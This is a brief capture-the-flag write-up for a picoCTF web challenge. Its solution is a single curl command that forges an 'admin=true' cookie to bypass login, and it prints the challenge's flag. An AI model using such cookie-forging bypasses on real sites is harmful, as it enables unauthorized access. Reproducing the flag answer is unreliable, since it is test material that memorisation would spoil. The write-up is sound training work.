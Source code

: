 ## Descripcion
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573

## Pistas

Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solucion
``` bash 
fedeloko-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=true"  
```

## Bandera
**Flag**: picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}

## Notas adicionales
|

## Referencias
